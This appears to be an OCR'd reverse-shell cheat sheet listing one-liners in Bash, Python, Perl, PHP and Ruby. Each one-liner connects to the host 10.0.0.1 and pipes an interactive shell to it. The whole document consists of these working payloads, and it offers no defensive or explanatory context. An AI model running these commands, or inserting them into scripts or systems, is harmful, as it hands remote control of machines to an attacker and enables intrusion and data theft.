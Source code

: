# Bash

` bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 `
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1337 >/tmp/f`

# Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' `

# Perl

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};`

# PHP

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

# Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
